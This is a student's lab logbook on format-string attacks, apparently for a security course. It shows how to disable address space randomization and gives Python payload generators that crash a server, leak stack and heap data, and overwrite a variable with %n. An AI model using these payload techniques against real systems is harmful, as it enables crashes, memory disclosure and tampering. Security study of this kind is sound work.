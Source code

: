 # Log Book 6

## Environment Setup
### Turning off countermeasure
For this lab, we need to disable security mechanisms that make format-strings attacks more difficult.

#### Address Space Randomization
Deactivates address space randomization making guessing addresses more easier which is one of the critical steps of the format-string attack.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

## Task 1
For this task we had to construct a simple payload to exploit the format-string vulnerability in the server. By analyzing the program source code we can see that the program reads user input into the ```buf``` variable. Then, this data is passed to ```myprintf()``` to print out the data. We were able to crash the server by filling the buf variable with multiple ```%s```.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

for i in range(0, N, 2):
  content[i:i+2] = ("%s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![](imgs/week6/task1.png)

## Task 2
### Task 2A
The objective of this task is to print out the data on the stack and to print out the first four bytes of our input. To do this we started by choosing some unique numbers (4 bytes) so we can immediately tell when they are printed out. We chose ```0xaabbccdd```. The rest of the payload is filled with 64 ```%x``` format specifiers.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0xaabbccdd
content[0:4]  =  (number).to_bytes(4,byteorder='little')

n = 64
x = "%x"
for i in range(4, 4 + 2 * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![](imgs/week6/task2A.png)


### Task 2B
For this task there was a secret message string stored in the heap area that we had to find. For this task, the first four bytes of the payload were filled with the secret message address that was given. Then, our input is followed by 63 ```%x``` format specifiers which will print out the data on the stack we finish by adding a ```%s``` format specifier that will print the secret message string, using the address stored in the beginning of our buffer.

The secret message string was: "A secret message"

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

secret_addr  = 0x080b4008
content[0:4]  =  (secret_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n = 64 - 1
x = "%x "
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

s_offset = skip_b + len(x) * n
content[s_offset:s_offset+2] = ("%s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![](imgs/week6/task2B.png)

## Task 3
### Task 3A
In this sub-task we are asked to change the target value to a different value. To achieve this, we started by setting the first four bytes of our payload as the first bytes of the target address given to us. Next, we fill the payload with 63 ```%x``` format specifiers followed by a ```%n``` which will load a different value to the variable pointed by the target's reference.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_addr  = 0x080e5068
content[0:4]  =  (target_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n = 64 - 1
x = "%x "
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

s_offset = skip_b + len(x) * n
content[s_offset:s_offset+2] = ("%n").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![](imgs/week6/task3A.png)

### Task 3B
This sub-task is similar to the previous one. However, it specifies the final value of the target variable which is ```0x5000```. This time our payload starts the same (with the target's reference first).

We make use of left-padding on number printing to get the needed number of chars printed. The number of chars printed is the number that will be stored on the target variable.

```python
#!/usr/bin/python3
import sys
from math import floor

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_addr  = 0x080e5068
content[0:4]  =  (target_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n_bytes_to_print = 0x5000
n = 64 - 1
x_size = int(floor(n_bytes_to_print/n))
x = "%0" + str(x_size) + "x"
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

# write number of written bytes to var
s_offset = skip_b + len(x) * n
# need to subtract 4 because it will write 4 bytes for the string
remaining = (n_bytes_to_print - (x_size * n)) - 4
n_str = "0"*remaining + "%n"
content[s_offset:s_offset+len(n_str)] = (n_str).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![](imgs/week6/task3B.png)

---

## CTF6

### Challenge 1
...

### Challenge 2
...